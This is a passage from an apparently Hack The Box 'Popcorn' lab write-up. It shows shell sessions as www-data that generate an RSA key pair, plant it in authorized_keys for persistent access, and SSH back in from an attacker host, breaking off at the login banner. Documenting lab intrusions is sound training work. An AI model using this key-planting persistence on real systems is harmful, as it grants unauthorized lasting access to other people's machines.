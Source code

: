 

    www-data@popcorn:/home/george$ rm -rf .cache/
    rm: cannot remove `.cache/motd.legal-displayed': Permission denied
    www-data@popcorn:/home/george$ ls -l .cache/motd.legal-displayed 
    -rw-r--r-- 1 george george 0 Mar 17  2017 .cache/motd.legal-displayed



I can do this in the `www-data` directory. I'll just need a way to log
in. I'll create a `.ssh` directory in www-data's home directory, and
generate an RSA key pair:



    www-data@popcorn:/home/george$ cd ~
    www-data@popcorn:/var/www$ mkdir .ssh
    www-data@popcorn:/var/www$ ssh-keygen -q -t rsa -N '' -C 'pam'
    Enter file in which to save the key (/var/www/.ssh/id_rsa): 
    www-data@popcorn:/var/www$ ls .ssh/
    id_rsa  id_rsa.pub



I'll copy the public key into `authorized_keys` and set the permissions:



    www-data@popcorn:/var/www$ cp .ssh/id_rsa.pub .ssh/authorized_keys
    www-data@popcorn:/var/www$ chmod 600 .ssh/authorized_keys 



Now there isn't a `.cache` in `/var/www`:



    www-data@popcorn:/var/www$ ls -la                                                    
    total 28                                                                             
    drwxr-xr-x  4 www-data www-data 4096 Jun 21 21:39 .               
    drwxr-xr-x 15 root     root     4096 Mar 17  2017 ..                                 
    -rw-------  1 www-data www-data   44 Jun 21 21:39 .bash_history                      
    -rw-r--r--  1 www-data www-data  177 Mar 17  2017 index.md    
    drwxr-xr-x  2 www-data www-data 4096 Mar 17  2017 rename  
    -rw-r--r--  1 www-data www-data   21 Mar 17  2017 test.php 
    drwxr-xr-x 15 www-data www-data 4096 Mar 17  2017 torrent 



If I grab a copy of the private key, bring it back to my host, and then
SSH to Popcorn as www-data, not only do I get a shell:



    root@kali# ssh -i /tmp/key www-data@10.10.10.6
    Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686

    To access official Ubuntu documentation, please visit:
    http://help.ubuntu.com/

      System information as of Sun Jun 21 21:49:51 EEST 2020

      System load: 0.0               Memory usage: 5%   Processes:       111
      Usage of /:  6.2% of 14.80GB   Swap usage:   0%   Users logged in: 0
